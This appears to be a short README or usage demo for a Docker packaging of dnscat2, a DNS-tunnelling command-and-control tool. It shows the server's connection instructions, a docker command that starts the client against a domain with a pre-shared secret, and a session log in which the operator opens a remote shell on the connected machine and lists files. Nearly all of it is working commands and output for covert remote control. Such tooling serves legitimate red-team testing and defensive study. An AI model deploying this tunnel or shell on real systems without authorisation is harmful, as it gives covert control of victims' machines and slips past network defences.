 ```bash
To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=e9829a2263f0c5ca10c8024dd551691f

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> 
```

Run client

```bash
$ sudo docker run -it --rm dmachard/dnscat2:latest client --secret=e9829a2263f0c5ca10c8024dd551691f biillpi.com
Creating DNS driver:
 domain = biillpi.com
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 192.168.1.210

** Peer verified with pre-shared secret!

Session established!
```

Open a remote shell from server

```bash
dnscat2> session -i 2

command (1535f3a093f8) 2> shell
Sent request to execute a shell
command (1535f3a093f8) 2> New window created: 3
Shell session created!

command (1535f3a093f8) 2> session -i 3
New window created: 3
history_size (session) => 1000
Session 3 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (1535f3a093f8) 3> ls -alrt
```
